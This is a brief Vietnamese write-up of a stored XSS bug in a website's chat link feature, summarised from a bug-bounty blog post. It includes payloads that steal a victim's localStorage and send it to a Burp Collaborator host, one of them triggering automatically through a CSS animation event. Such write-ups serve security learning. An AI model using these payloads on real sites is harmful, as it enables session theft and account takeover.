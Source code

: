 
Sử dụng XSS để lấy thông tin nạn nhân

# Mô tả

Ứng dụng chat của website luôn gói link được gửi trong chat vào thẻ a 

Ví dụ bạn gõ https://google.com và nhấn gửi. Ứng dụng sẽ gói thành <a href= google.com> </a>

Vấn đề ở đây là Ứng dụng không kiểm tra các kí tự được gói trong link. Payload kiểm tra là:

`https://google.com"'/>` chuyển thành `"target="_blank rel="noreferred" https://google.com`

Sau đó
`https://google.com"onclick="alert('1')"a="` Thành `<a href="https://google.com" onclick="alert(1)" a="">`

Như vậy ứng dụng đã mắc lỗi XSS và có thể bị khai thác

# Khai thác lỗi

## Lấy thông tin lưu trên local store

Payload
`https://google.com"onclick="b=JSON.stringify(localStorage);c=btoa(b);i=new/**/Image;i.src='https://burpcollaborator.burpcollaborator.net?t='+c"a="`

Nếu link được gửi đi và có user nhấp vào, thông tin được lưu trong localStore của họ sẽ bị gửi đến server C2 burp

Payload này chủ được nạp khi có user click vào.

## Làm thế nào để payload tự trigger mà không cần tác động của user
Payload có thể trigger nếu nó có thể inject vào một animation style tag. Tác giả đã tìm thấy một file css như vậy và tạo ra payload:

- payload đặt trong onanimation attribute
- Định nghĩa tag style  

`https://google.com"onanimationstart="b=JSON.stringify(localStorage);c=btoa(b);i=new/**/Image;i.src=’https://burpcollaborator.burpcollaborator.net?t='+c"style="animation-name:Toastify__bounceOutRight`

Khi link được gửi và user click vào, tag style load, sự kiện thực thi, và code tự động gửi thông tin về máy attacker.


### Source: 

1. [How I managed to trigger XSS automatically to get critical account takeover](https://c4rrilat0r.medium.com/how-i-managed-to-trigger-xss-automatically-to-get-critical-account-takeover-92ea3abcaf9)
2. [Cross-Site Scripting Cheat Sheet from Port Swigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)